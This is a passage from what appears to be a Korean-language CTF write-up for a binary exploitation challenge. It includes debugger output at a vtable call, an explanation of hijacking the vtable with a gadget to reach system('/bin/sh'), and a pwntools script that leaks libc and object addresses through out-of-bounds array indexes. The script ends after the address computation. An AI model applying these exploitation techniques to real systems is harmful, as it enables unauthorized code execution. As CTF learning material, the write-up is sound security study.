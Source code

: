 ```
$r15   : 0x00007ffe1e107dbc  →  0x0000000200000000
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7f1a389f7a80                  mov    rax, QWORD PTR [rax]
   0x7f1a389f7a83                  mov    rsi, QWORD PTR [rsi]
 → 0x7f1a389f7a86                  call   rax
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
*0x7f1a392299d3 (
   $rdi = 0x000055d9b9f0a310 → function vtable
   $rsi = function vtable
   $rdx = 0x000055d9b9f0a310 → function vtable
)
```

다음은 인덱스로 함수를 호출할 때의 상황입니다. rdi, rdx 값은 각각 클래스 객체 주소값을 나타내고있고, rsi 는 가장 첫번째 멤버인 vtable 을 나타내고 있습니다. vtable 주소를 변조시킴으로써 원하는 함수를 호출할 수 있게 됩니다. 하지만 원샷 조건이 안맞고, rdi가 vtable을 가리키고 있기 때문에 다른가젯을 사용해야 합니다.

> 0x001279d3: mov rdi, rsi; mov rax, [rdi+8]; mov rsi, [r8+0x40]; mov edx, [rsi+0x1c8]; add rsi, 0x38; jmp qword ptr [rax+0x18];

가젯을 찾다보면, 조건에 부합하는 가젯을 찾을 수 있습니다. rsi 값(vtable)을 rdi 에 넣은 뒤, vtable+8 -> rax, `vtable+0x18` 여기있는 주소를 참조해 호출하게 됩니다.
클래스 객체 주소를 leak 할 수 있으니 fake vtable 을 구성하여 가젯을 `system("/bin/sh")` 으로 맞춰주면 됩니다. fake table은 `class+0x3f4` 에 위치한 calldata array으로 사용합니다.

solve.py
```python
r = remote("localhost", 8546)
lib = ELF("./libc-2.31.so")
# r = process("")
# context.log_level = 'debug'
r.sendlineafter("Enter RPC URL: ", "http://snwo.kr:5000")
r.sendlineafter("Choose an option: ", "1")
r.sendlineafter("Enter private key: ", "0x0")
r.sendlineafter("Enter public key: ", "0x0")

for i in range(4*5):
    r.sendlineafter("Choose an option: ", "12")
    r.sendlineafter("Enter 4-byte calldata (as hex string): ", "0x11111111")

leaks = []
for i in range(0,0x10,2):
    idx = -(0x3f4 // 4) & ((1<<32)-1)
    idx += i
    r.sendlineafter("Choose an option: ", "3")
    r.sendlineafter("Enter account index: ", "0")
    r.sendlineafter("Enter contract address: ", "0x0")
    r.sendlineafter(": ",f"@{idx},")
    r.recvuntil("eth_call result: ")
    low_32 = int(r.recvline().strip(),16)
    r.sendlineafter("Choose an option: ", "3")
    r.sendlineafter("Enter account index: ", "0")
    r.sendlineafter("Enter contract address: ", "0x0")
    r.sendlineafter(": ",f"@{idx+1},")
    r.recvuntil("eth_call result: ")
    high_32 = int(r.recvline().strip(),16)
    leak = low_32 + (high_32 << 32)
    print(i//2,hex(leak))
    leaks.append(leak)

libc_base = leaks[0] - 0xc4920 + 0x78c000
# libc_base = leaks[0] - 0xc4920 + 0x644000
class_base = leaks[5] - 0x38
array_base = class_base+0x3f4
```
